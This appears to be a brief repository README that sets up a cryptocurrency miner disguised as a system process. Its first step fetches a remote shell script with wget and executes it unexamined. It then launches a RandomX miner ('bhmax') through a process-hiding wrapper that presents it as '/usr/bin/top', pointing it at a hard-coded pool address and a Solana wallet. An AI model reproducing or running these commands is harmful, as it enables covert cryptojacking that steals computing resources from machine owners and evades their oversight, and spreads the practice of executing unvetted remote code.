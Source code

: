 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 8 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

###3

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax


